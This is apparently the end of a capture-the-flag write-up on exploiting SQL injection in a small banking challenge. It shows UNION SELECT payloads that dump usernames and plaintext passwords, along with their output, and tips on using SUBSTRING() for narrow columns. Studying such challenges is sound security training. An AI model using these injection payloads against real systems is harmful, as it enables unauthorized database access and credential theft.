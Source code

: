Perfect! It looks like we have now enumerated all fields in the `users` table. It contains `id`, `username`, `password`, `ipaddress`, `created`, and `country` fields. Let's get in here and see if we can drain this database dry!

## Breaking The Bank

The hard part is over. We have taken notes on all of the structure and can quickly craft statements to pwn this thing! We're going to start by enumerating all the users in this table. We'll also go ahead and include the user's id in our provided `id` field to help us with organizing.

```coq
Selection: 9 UNION SELECT id, username, NULL as balance FROM users     
1  | databus                                  |        
2  | 0xRar                                    |        
3  | Orgis                                    | 
```

Sweet, it looks like we have 3 users here. Let's steal their passwords. We'll continue to use the `id` field so that we know who they belong to.

```pgsql
Selection: 9 UNION SELECT id, password, NULL as balance FROM users
1  | just@password                            |        
2  | reallyfancypa$sw0rd                      |        
3  | ilikesammiches                           |        
```

Perfect. We now have all the usernames and passwords for this system. And they failed to encrypt them, so our life just got a whole lot easier. Plus we learned that **0rgis** likes sammiches. ;)

## Final Thoughts

So while I didn't show examples from **Squierli** in this write-up, I did provide you with all the knowledge necessary to defeat it. I also made it a little bit easier with a wider column than devious **databus** did, but now you know how to `SUBSTRING()` in order to get the results you need within a limited space.

Here we learned to keep an eye on what's hidden right in front of you by checking for id numbers that are not displayed. We also learned how to test if SQLi was possible on our target. And then we learned how to craft our own SQLi. Finally we learned how to enumerate everything in the database, even from tables that weren't intended on being accessed.

Just keep in mind that each brand of SQL database will have a different query structure and will also have a different master table. If you come across one of these, you will need to check the documentation for that particular flavor and make adjustments to your injection, but will still use the knowledge that you gained here.

>This is not a write up writen by r0lk444